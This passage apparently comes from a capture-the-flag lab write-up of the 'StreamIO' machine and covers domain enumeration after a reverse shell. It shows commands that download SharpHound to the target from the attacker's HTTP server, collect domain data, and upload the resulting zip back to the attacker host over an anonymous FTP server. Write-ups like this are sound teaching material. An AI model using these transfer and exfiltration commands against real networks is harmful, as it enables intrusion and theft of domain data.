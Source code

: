 <figure><img src="../../.gitbook/assets/streamio_rce_conptyshell.png" alt=""><figcaption><p>Figure 31: Catching the reverse shell.</p></figcaption></figure>

## Lateral Movement

### Domain Enumeration

Since we got our foothold, we will use `SharpHound` to collect domain information which will then analyze with BloodHound. First, we will start an HTTP server on our attack host, transfer `SharpHound` to the target, and use it to collect domain data.

```bash
# Starting a Python HTTP server on the attack host
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```powershell
# Donwloading the executable to the target
wget http://10.10.14.13/SharpHound.exe -o sh.exe
# Collecting domain information
.\sh.exe -c all
<SNIP>
```

Next, we will upload the resulting `zip` file from the target back to our attack host via an FTP server.

```bash
# Starting an FTP server on the attack host
sudo python3 -m pyftpdlib --port 21 --write
/usr/local/lib/python3.11/dist-packages/pyftpdlib/authorizers.py:108: RuntimeWarning: write permissions assigned to anonymous user.
  self._check_permissions(username, perm)
[I 2024-04-23 19:21:42] concurrency model: async
[I 2024-04-23 19:21:42] masquerade (NAT) address: None
[I 2024-04-23 19:21:42] passive ports: None
[I 2024-04-23 19:21:42] >>> starting FTP server on 0.0.0.0:21, pid=4334 <<<
```

{% code overflow="wrap" %}
```powershell
# Uploading the zip file to the FTP server
(New-Object Net.WebClient).UploadFile('ftp://10.10.14.13/bh.zip', 'C:\Windows\Temp\20240423181935_BloodHound.zip')
```
{% endcode %}


[^1]: SQL Injection
[^2]: Brute Force Attack
[^3]: Local File Inclusion
[^4]: Structured Query Language Injection
[^5]: Brute Force Attack
[^6]: Local File Inclusion
[^7]: Elevation of Privileges
[^8]: Domain Controller
[^9]: Fully Qualified Domain Name
[^10]: Structured Query Language injection
[^11]: Web Application Firewall
[^12]: Database Management System
[^13]: Local File Inclusion
[^14]: Remote Code Execution
[^15]: Domain Controllers
